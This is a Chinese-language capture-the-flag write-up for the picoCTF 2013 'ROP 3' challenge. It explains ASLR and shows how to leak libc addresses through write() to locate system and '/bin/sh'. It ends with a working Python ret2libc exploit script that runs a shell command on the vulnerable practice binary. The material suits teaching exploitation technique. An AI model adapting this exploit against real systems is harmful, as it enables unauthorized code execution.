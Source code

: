 ```yaml
---
layout: post
title: ROP 3
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%203
---
```


这是 [ROP 2]({% url_by_slug picoctf-2013-rop-2 %}) 的进阶版。程序不再导入 `system` 函数，也没有现成的 "/bin/sh" 字符串了：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()  {
	char buf[128];
	read(STDIN_FILENO, buf,256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
    be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

{% include writeup_begin.html %}

目前，绝大多数系统都有 ASLR（地址空间随机化）机制。在 ASLR 开启的情况下，动态库、栈空间的地址每次执行都会随机变化，这让确定栈上的缓冲区地址、确定动态库中的函数地址更加困难。对于可执行程序来说，如果编译时使用了 `-pie` 编译选项（生成位置无关的可执行程序），则在执行这个程序时，它的加载地址也会随机化；如果指定了 `-no-pie` 选项，则每次加载的地址都是固定的。我们可以通过 `file` 命令来查看一个可执行文件中的代码是否是位置无关的：

```bash
dontpanic@Ubuntu:~$ gcc -no-pie test.c
dontpanic@Ubuntu:~$ file a.out
a.out: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b6a30608d5278aba091e7f52f2a7fd25e7c745a9, not stripped
dontpanic@Ubuntu:~$
dontpanic@Ubuntu:~$
dontpanic@Ubuntu:~$ gcc -pie test.c
dontpanic@Ubuntu:~$ file a.out
a.out: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75017e995c8e398060095542ea11b2bb1445a965, not stripped
dontpanic@Ubuntu:~$
```

rop3 程序采用了 `-no-pie`，这为我们的爆破带来了便利。

程序的导入表中存放有导入函数的真实地址，这些地址每次运行都会不同——这是因为在每一次程序执行时，动态库都会加载在不同的地址上。然而，虽然每一次动态库的加载地址不同，但同一动态库内部的函数之间的相对地址仍然不变，我们可以根据已导入的函数的真实地址来计算得出目标函数的真实地址。

这道题目的程序导入了 `read` 和 `write`，这让我们有机会通过 `write` 打印出它们的真实地址，从而能够计算出 `system` 函数的真实地址。这三个函数都是 `libc` 中的函数，因此它们相互之间的相对距离是不变的：

![libc]({% asset libc.png %})

我们选择 `read` 函数的地址作为基准。首先，我们需要通过溢出覆盖掉返回地址，从而能够调用 `write` 函数打印出 `read` 函数的真实地址，然后通过构造栈上的内容，让 `write` 函数再次返回至 `vulnerable_function`，以便我们再次覆盖返回地址调用 `system` 函数。`system` 函数的地址通过 `read` 函数的地址计算而得。

首先我们需要计算一下 `system` 和 `read` 函数之间的偏移。使用 gdb 调试一下：

```
(gdb) info address system
Symbol "system" is at 0xf7e25200 in a file compiled without debugging.
(gdb) info address read
Symbol "read" is at 0xf7ececb0 in a file compiled without debugging.
```

因此 `system` 的地址就等于 `read + (0xf7e25200 - 0xf7ececb0)`。下面我们有一个问题没有解决：`/bin/sh` 字符串要怎么搞？这里有几种不同方法：一是可以使用 gdb 在内存中搜索一下，看看内存中是否会有现成的字符串，有时候某些指令可能会碰巧组合成我们需要的字符串；二是我们可以自行找一块可写的内存把这一段字符串写入——我们有 `read` 方法可以从 `stdin` 读入字符串，而后写入到指定的地址中。

libc 中刚好存在 `/bin/sh` ——首先在 gdb 中使用 `info proc` 查看一下进程 id，然后通过 `cat /proc/PID/maps` 查看一下内存映射情况：

```
f7de8000-f7fbd000 r-xp 00000000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fbd000-f7fbe000 ---p 001d5000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fbe000-f7fc0000 r--p 001d5000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
f7fc0000-f7fc1000 rw-p 001d7000 08:01 258140                             /lib/i386-linux-gnu/libc-2.27.so
```

然后在 gdb 中查找一下 `/bin/sh`：

```
(gdb) find 0xf7de8000,0xf7fbd000,"/bin/sh"
0xf7f660cf
1 pattern found.
```

因此，`/bin/sh` 的地址即为 `read_addr + (0xf7f660cf - 0xf7ececb0)`。

下面我们就要正式开始进行爆破了。由于我们需要两次溢出，第二次溢出填入的内容需要根据第一次溢出的输出而改变，因此我们需要 python 的一点帮助：

```python
import subprocess as sp

p = sp.Popen("./rop3-7f3312fe43c46d26", stdin=sp.PIPE, stdout=sp.PIPE, stderr=sp.PIPE, bufsize=1)

#                                               ↓write函数结束后的返回地址              ↓write的第二个参数
p.stdin.write('0' * 0x88 + '0000\xa0\x83\x04\x08\x74\x84\x04\x08\x01\x00\x00\x00\x00\xa0\x04\x08\x04\x00\x00\x00\n')
#                          ↑ebp ↑write的地址                      ↑write的第一个参数                ↑write的第三个参数
s = p.stdout.read(4)[::-1]
read_addr = int(s.encode('hex'), 16)
system_addr = read_addr + (0xf7e25200 - 0xf7ececb0)
system_s = format(system_addr, 'x').decode('hex')[::-1]
str_addr = read_addr + (0xf7f660cf - 0xf7ececb0)
str_s = format(str_addr, 'x').decode('hex')[::-1]

#                                              ↓system结束后的返回地址
p.stdin.write('0' * 0x88 + '0000' + system_s + '0000' + str_s + '0' * (256-0x88-16) + 'whoami\n')
#                          ↑ebp    ↑system的地址        ↑system的参数                   ↑想要执行的命令

# 将会打印出 whoami 的执行结果
print p.stdout.readline()

```

{% include writeup_end.html %}
